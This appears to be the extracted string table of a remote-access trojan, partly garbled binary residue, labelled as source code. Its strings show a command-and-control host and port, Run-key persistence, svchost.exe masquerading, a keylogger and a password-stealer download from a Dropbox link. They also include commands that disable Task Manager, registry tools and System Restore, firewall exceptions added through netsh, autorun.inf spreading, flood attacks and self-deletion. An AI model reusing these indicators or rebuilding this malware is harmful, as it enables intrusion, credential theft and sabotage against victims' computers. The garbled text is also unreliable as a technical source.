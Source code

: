 EndInvoke DelegateAsyncResult Invoke WebServices GetInstance  	T r u e  A p p D a t a  d I s c o r d . e x e  ;p o o l - t o u r n a m e n t s . g l . a t . p l y . g g  5 5 5  A0 e 2 c 3 b 9 2 4 b 1 5 3 b e e b 9 1 7 b f 3 6 8 a 6 f 0 a d 0  [S o f t w a r e \ M i c r o s o f t \ W i n d o w s \ C u r r e n t V e r s i o n \ R u n  4 0  !Z G l z Y 2 9 y Z C 5 l e G U =  i m 5 2 3  | ' | ' | E x s a m p l e . e x e  F a l s e  s v c h o s t . e x e  C o n n e c t  v n  
 
  :  i n f  S o f t w a r e \  S y s t e m D r i v e  \  E R R  ,  SS o f t w a r e \ M i c r o s o f t \ I n t e r n e t   E x p l o r e r \ M a i n  S t a r t   P a g e  	n w p r  	s i t e  f u n  
I E h o m e  !s h u t d o w n c o m p u t e r  #s h u t d o w n   - s   - t   0 0 r e s t a r t c o m p u t e r  #s h u t d o w n   - r   - t   0 0 
l o g o f f  #s h u t d o w n   - l   - t   0 0 E r o r r M s g  1  2  3  4  5  6  p e e c h  S A P I . S p v o i c e  s p e a k  	B e p X  p i a n o  
O p e n C D  +s e t   C D A u d i o   d o o r   o p e n  C l o s e C D  /s e t   C D A u d i o   d o o r   c l o s e d  D i s a b l e K M  E n a b l e K M  T u r n O f f M o n i t o r  T u r n O n M o n i t o r  N o r m a l M o u s e  R e v e r s e M o u s e  D i s a b l e C M D  yH K E Y _ C U R R E N T _ U S E R \ S o f t w a r e \ P o l i c i e s \ M i c r o s o f t \ W i n d o w s \ S y s t e m  E n a b l e C M D  0  D i s a b l e R e g i s t r y  Ђ—H K E Y _ C U R R E N T _ U S E R \ S o f t w a r e \ M i c r o s o f t \ W i n d o w s \ C u r r e n t V e r s i o n \ P o l i c i e s \ S y s t e m  )D i s a b l e R e g i s t r y T o o l s  E n a b l e R e g i s t r y  D i s a b l e R e s t o r e  Ђ›H K E Y _ L O C A L _ M A C H I N E \ S O F T W A R E \ M i c r o s o f t \ W i n d o w s   N T \ C u r r e n t V e r s i o n \ S y s t e m R e s t o r e  D i s a b l e S R  E n a b l e R e s t o r e  %D i s a b l e T a s k M a n a g e r  D i s a b l e T a s k M g r  #E n a b l e T a s k M a n a g e r  C u r s o r S h o w  C u r s o r H i d e  s e n d m u s i c p l a y  O p e n S i t e  d o s  u d p  
u d p s t p  p i n g s t o p  1t a s k k i l l   / F   / I M   P I N G . E X E  l l  k l  p a s  	t e m p  / p a s s . e x e  mh t t p s : / / d l . d r o p b o x . c o m / s / p 8 4 a a z 2 8 t 0 h e p u l / P a s s . e x e ? d l = 0  / t e m p . t x t  	p r o f  ~  !  g e t v a l u e  @  r n  M S G  E x e c u t e   E R R O R  b l a  D o w n l o a d   E R R O R  .  E x e c u t e d   A s    E x e c u t e   E R R O R    i n v  p l  A  h  p  o s k  s t a r t  O f f  o f f  r e t  G T  C A P  u n  u p  U p d a t e   E R R O R  	. e x e  U p d a t i n g   T o    . .  U p d a t e   E R R O R    E x  P L G  i n d  H  P  c  E R  _  ? ?  y y - M M - d d ? ? - ? ? - ? ? M i c r o s o f t  W i n d o w s  W i n  ® "!        	  W i n  S P  x 8 6  	  x 6 4  	  x 8 6  Y e s  N o  Gn e t s h   f i r e w a l l   a d d   a l l o w e d p r o g r a m   "  "   "  "   E N A B L E  "  	"   . .  !t a s k k i l l   / F   / I M    a u t o r u n . i n f  [ a u t o r u n ]  o p e n =  s h e l l e x e c u t e =  d i  a c t  x 2  c l e a r    Mn e t s h   f i r e w a l l   d e l e t e   a l l o w e d p r o g r a m   "  S o f t w a r e  3c m d . e x e   / k   p i n g   0   &   d e l   "  "   &   e x i t  	[ k l ]  
 
  y y / M M / d d     
 
 [  ]  [ E N T E R ] 
 
  [ T A P ] 
 
  2 0  t a s k m g r  p r o c e s s v i e w e r  p r o c e s s h a c k e r  !p r o c e s s   e x p l o r e r  
b u t t o n  
s t a t i c  d i r e c t u i h w n d  E n d   p r o c e s s     E0MОJ «LЇљ”¦eыЭ            =A     
     
 U        y  
  ЂЃ    Ђ•    Ђ™    Ђ­  ==       ЂЅ  ЂЕ  ЂЕ  ЂЕ  
 ЂСЂЕ  Ђщ	 Ђэ
 ЃЂЭЂб  = 
 
